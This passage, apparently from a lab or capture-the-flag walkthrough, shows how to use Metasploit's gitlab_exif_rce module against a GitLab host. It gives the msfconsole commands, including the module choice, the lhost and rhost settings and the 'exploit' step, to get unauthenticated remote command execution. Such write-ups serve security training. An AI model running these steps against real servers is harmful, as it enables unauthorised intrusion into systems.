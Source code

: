 2. There is a Metasploit module for this. While connected to the developer machine via SSH, type: 

    ```bash
    msfconsole
    ```

3. Enter `search gitlab` to see available exploits. You want: **5 | exploit/multi/http/gitlab_exif_rce | 2021-04-14 | excellent | Yes | GitLab Unauthenticated Remote ExifTool Command Injection**

    ![](./img/c49-img18.png)

4. Enter the following:

    ```
    use exploit/multi/http/gitlab_exif_rce
    set lhost 10.1.1.50
    set rhost gitlab.merch.codes
    ```

5. Enter:

    ```
    exploit
    ```

    ...it should return this.

    ![](./img/c49-img19.png)
